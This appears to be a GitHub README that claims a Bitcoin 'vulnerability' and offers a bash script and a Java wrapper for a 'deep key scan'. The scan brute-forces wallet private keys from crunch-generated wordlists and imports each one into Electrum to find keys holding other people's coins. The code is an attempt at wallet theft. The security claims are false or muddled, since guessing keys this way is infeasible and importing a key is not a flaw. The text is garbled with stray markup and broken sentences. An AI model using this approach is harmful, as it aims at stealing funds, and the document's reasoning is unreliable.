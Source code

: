 # bitcoin-lost-deep-key-private-key
# lost bitcoin , deep key private key

The core concepts of how the blockchain works and operates remains uneffected by this vulernability in how bitcoin works,

<br>

It might be possible to scan bitcoin private keys sitting on the network due to a vulnerability in the way bitcoin was 
<br>
designed since there is nothing really safeguarding the internal framework of the bitcoin wallet either in classic, core or 
<br>
other variants. Even by encrypting your wallet nothing prevents the importation of a private key by changing a configuration 
<br>
flag in any wallet whether it is classic, core or a variant. I have attempted to test a basic attack vector using a password 
<br>
generation program based on JTR and crunch (https://sourceforge.net/projects/crunch-wordlist/) to generate a range of base 
<br>
58 values based on bitcoin private keys and under further modification it is possible to continue to customize this form of 
<br>
private key deep scan and execute it as a basic attack vector. The banking system should be notified not to get on-board 
<br>
with the Bitcoin network, even though originally the bitcoin network might have represented a form of Independence from 
<br>
banking institutions to by pass terrible fees from the banks and other dilemmas caused by most banks having full control.
<br>
As an example of private key generation and experimentation within the bitcoin network some private keys start with #L5..c4 
<br>
or Ky..k1 < as an example 52 characters alpha-numeric no special characters, decoded they flip around to an address starting 
<br>
with 1 as part of the end decoded process, similar to how paper wallets are printed exported and imported there is #nothing 
<br>
protecting a paper wallet if it is a known similar to how a private key bears no security or protection from import to #a 
<br>
wallet whether it is classic, core or a variant.
<br>
<br>
<br>
<br>

I estimate on a modern system this deep key scan for a small set of keys ranging in a few million private keys could #take 
<br>
anywhere from 3 to 4 months to generate and scan, furthermore I have written a crude script to try newly generated private 
<br>
keys using “crunch” password generator to generate 52 character private keys starting with L or K.
<br>
this problem could also effect any "ALT" that uses the same model for private key to address encoding-decoding
<br>

# https://bitcoinelectrum.com/importing-your-private-keys-into-electrum/
<br>

#as an example using bash from a crude semi working type
<br>

where the .txt files are private key deep search blocks generated by crunch password generator
<br>

and electrum has to have a config flag flipped in order to import private keys, in order to being import
<br>

you have to import a pre-existing working private key into electrum which is used here.
<br>

#!/bin/sh 
<br>

head -n1 L1nQuHYTwKuzPmKJCfLhEgpCGsYjjmvCecnc7XNQWvBZLV9FrQ5X-L1nQuHYTwKuzPmKJCfLhEgpCGsYjjmvCecnc7XNQWvBZLV9GI50f.txt > 
<br>

newfile.txt 
<br>

cat newfile.txt 
<br>

perl -p -i -e 's/\R//g;' newfile.txt 
<br>

cat newfile.txt 
<br>

cat newfile.txt | electrum importprivkey - 
<br>

tail -n +2 "L1nQuHYTwKuzPmKJCfLhEgpCGsYjjmvCecnc7XNQWvBZLV9FrQ5X-L1nQuHYTwKuzPmKJCfLhEgpCGsYjjmvCecnc7XNQWvBZLV9GI50f.txt" > 
<br>

"L1nQuHYTwKuzPmKJCfLhEgpCGsYjjmvCecnc7XNQWvBZLV9FrQ5X-L1nQuHYTwKuzPmKJCfLhEgpCGsYjjmvCecnc7XNQWvBZLV9GI50f.txt.tmp" && mv 
<br>

"L1nQuHYTwKuzPmKJCfLhEgpCGsYjjmvCecnc7XNQWvBZLV9FrQ5X-L1nQuHYTwKuzPmKJCfLhEgpCGsYjjmvCecnc7XNQWvBZLV9GI50f.txt.tmp" 
<br>

"L1nQuHYTwKuzPmKJCfLhEgpCGsYjjmvCecnc7XNQWvBZLV9FrQ5X-L1nQuHYTwKuzPmKJCfLhEgpCGsYjjmvCecnc7XNQWvBZLV9GI50f.txt" 

<br>





#as a crude example using java in a non working model
<br>


/* 
<br>
* To change this license header, choose License Headers in Project Properties. 
<br>

* To change this template file, choose Tools | Templates 
<br>

* and open the template in the editor. 
<br>

*/ 
<br>

//package deepkeysearch; 
<br>

import java.io.BufferedReader; 
<br>

import java.io.InputStreamReader; 
<br>

public class DeepKeySearch { 
<br>

    public static void main(String[] args) { 
<br>

        DeepKeySearch obj = new DeepKeySearch(); 
<br>
<br>
<br>
<br>
<br>
    System.out.println("Place in working directory of wordlists to process"); 
<br>

    System.out.println("Change text file rotation after L1nQuHYTwKuzPmKJCfLhEgpCGsYjjmvCecnc7XNQWvBZLV9FrQ5X-
<br>
  
    L1nQuHYTwKuzPmKJCfLhEgpCGsYjjmvCecnc7XNQWvBZLV9GI50f.txt"); 
<br>
<br>
<br>
<br>

        String command = "./deepkey.sh"; 
<br>
<br>
<br>

        String output = obj.executeCommand(command); 
<br>
<br>
<br>

        System.out.println(output); 
<br>

    } 
<br>

    private String executeCommand(String command) { 
<br>

        StringBuffer output = new StringBuffer(); 
<br>

        int infinite = 99; 
<br>

        while (infinite != 100) { 
<br>
<br>
<br>

        Process p; 
<br>
      try { 
<br>
            p = Runtime.getRuntime().exec(command); 
            p.waitFor(); 
            BufferedReader reader = 
                            new BufferedReader(new InputStreamReader(p.getInputStream())); 
<br>

                        String line = ""; 
<br>
            while ((line = reader.readLine())!= null) { 
<br>
                output.append(line + "\n"); 
<br>

        System.out.println(output); 
<br>

            } 
<br>

        } catch (Exception e) { 
<br>
            e.printStackTrace(); 
<br>
        } 
<br>

        infinite = 1; 
<br>

        } 
<br>

        return output.toString(); 
<br>

        } 
<br>



    } 






